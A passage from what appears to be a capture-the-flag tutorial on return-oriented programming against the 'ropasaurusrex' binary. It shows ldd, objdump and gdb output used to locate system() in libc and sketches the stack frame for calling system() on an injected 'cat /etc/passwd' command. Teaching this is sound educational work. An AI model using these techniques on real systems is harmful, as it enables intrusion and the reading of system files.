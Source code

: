 Perfect!

### Running it

Now that we've written <tt>cat /etc/passwd</tt> into memory, we need to call <tt>system()</tt> and point it at that address. It turns out, if we assume ASLR is off, this is easy. We know that the executable is linked with libc:

```

<span class="lnr">1 </span>$ ldd ./ropasaurusrex
<span class="lnr">2 </span>        linux-gate.so.1 <span class="Statement">=</span><span class="Statement">></span>  <span class="PreProc">(</span><span class="Special">0xb7703000</span><span class="PreProc">)</span>
<span class="lnr">3 </span>        libc.so.6 <span class="Statement">=</span><span class="Statement">></span> /lib/i686/cmov/libc.so.6 <span class="PreProc">(</span><span class="Special">0xb75aa000</span><span class="PreProc">)</span>
<span class="lnr">4 </span>        /lib/ld-linux.so.2 <span class="PreProc">(</span><span class="Special">0xb7704000</span><span class="PreProc">)</span>
```

And <tt>libc.so.6</tt> contains the <tt>system()</tt> function:

```

<span class="lnr">1 </span>$ objdump <span class="Special">-T</span> /lib/i686/cmov/libc.so.6 | <span class="Statement">grep</span> system
<span class="lnr">2 </span><span class="Constant">000f5470</span> g    DF .text  <span class="Constant">00000042</span>  GLIBC_2.0   svcerr_systemerr
<span class="lnr">3 </span><span class="Constant">00039450</span> g    DF .text  <span class="Constant">0000007d</span>  GLIBC_PRIVATE __libc_system
<span class="lnr">4 </span><span class="Constant">00039450</span>  w   DF .text  <span class="Constant">0000007d</span>  GLIBC_2.0   system
```

We can figure out the address where <tt>system()</tt> ends up loaded in ropasaurusrex in our debugger:

```

<span class="lnr">1 </span>$ gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x43434343 in ?? ()</span>
<span class="lnr">5 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr">6 </span>0xb7ec2450 <span class="Statement"><</span>system<span class="Statement">></span>:    0x890cec83
```

Because <tt>system()</tt> only takes one argument, building the stackframe is pretty easy:

```

+----------------------+
|        [...]         | - doesn't matter, other funcs will go here
+----------------------+

+----------------------+ <-- Start of system()'s stack frame
|      void *arg       | - our buffer, 0x08049530
+----------------------+
|   [return address]   | - where 'system' will return
+----------------------+
|        [...]         | - doesn't matter, system() will use for locals
+----------------------+
```
